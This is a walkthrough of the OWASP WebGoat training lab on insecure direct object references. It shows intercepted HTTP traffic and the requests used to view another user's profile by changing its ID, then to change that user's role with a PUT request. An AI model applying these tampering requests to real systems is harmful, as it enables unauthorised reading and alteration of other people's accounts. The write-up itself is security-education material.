 # Insecure Direct Object References

## Direct Object Reference Definition
- when an application uses client-provided input to access data and objects.

## Examples
```
https://some.company.tld/dor?id=12345
https://some.company.tld/images?img=12345
https://some.company.tld/dor/12345
```
- other methods include `POST`, `PUT`, `DELETE`
- all these are potentially susceptible
- mainly only differ in the method and the potential payload

## Insecure Direct Object References
- happens when the reference is not properly handled
- allows for authorization bypasses
- or disclose private data
- these could be used to perform operations or access data
- that the user should not be able to perform or access.

## Exercise 1
Authenticate first, input:
```
user: tom
password: cat
```
![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/28%20IDOR%20authorize%20first.PNG?token=ANjmpuwc46YueC3e21SAI5e7_TRv5jeOks5b1cB5wA%3D%3D)

## Exercise 2
Task:
Find the raw data that is in the raw response but is not shown on the page.
![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/29%20IDOR%20view%20profile.PNG?token=ANjmpmFdJgiS0mD22C6WXE0qtvJ7Fqf-ks5b1cCNwA%3D%3D)

Intercept the request/response with burp:
```
HTTP/1.1 200
X-Application-Context: application:8080
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Date: Sun, 21 Oct 2018 12:34:47 GMT
Connection: close
Content-Length: 110

{
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
}
```
The two different fields are: role and userId.

## Exercise 3
Task: guess the url manipulation

Look at the previous request:
```
GET /WebGoat/IDOR/profile HTTP/1.1
Host: localhost:8080
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8080/WebGoat/start.mvc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=CA367C98E91986B2DA85E5293B72885B
Connection: close
```
Note that the url is `/WebGoat/IDOR/profile`

Remember that in the previous exercise, we found that userId=`2342384`

Therefore the manipulated URL is:
```
WebGoat/IDOR/profile/2342384
```

## Exercise 4
Task 1: View another profile
```
Entering your own profile:

GET /WebGoat/IDOR/profile/2342384 HTTP/1.1
Host: localhost:8080
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://localhost:8080/WebGoat/start.mvc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=CA367C98E91986B2DA85E5293B72885B
Connection: close

Response:

HTTP/1.1 200
X-Application-Context: application:8080
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Date: Sun, 21 Oct 2018 13:40:13 GMT
Connection: close
Content-Length: 186

{
  "lessonCompleted" : false,
  "feedback" : "Try again. You need to use the same method\\/URL you used to access your own profile via direct object reference.",
  "output" : null
}
```
Change the userId in the request:
```
GET /WebGoat/IDOR/profile/2342388
```
Results:
```
{
  "lessonCompleted" : true,
  "feedback" : "Well done, you found someone else's profile",
  "output" : "{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}"
}
```

Task 2: Edit another profile
```
PUT /WebGoat/IDOR/profile/2342388 HTTP/1.1
Host: localhost:8080
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Content-Type: application/json
Referer: http://localhost:8080/WebGoat/start.mvc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=CA367C98E91986B2DA85E5293B72885B
Connection: close
Content-Length: 45

{"userId":"2342388","role":"0","color":"red"}
```
- Change the `GET` request to `PUT`
- Change the Content-Type to `application/json`
- Add the contents: `{"userId":"2342388","role":"0","color":"red"}`

Output:
```
HTTP/1.1 200
X-Application-Context: application:8080
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Date: Sun, 21 Oct 2018 13:55:15 GMT
Connection: close
Content-Length: 208

{
  "lessonCompleted" : true,
  "feedback" : "Well done, you have modified someone else's profile (as displayed below)",
  "output" : "{role=0, color=red, size=large, name=Buffalo Bill, userId=2342388}"
}
```
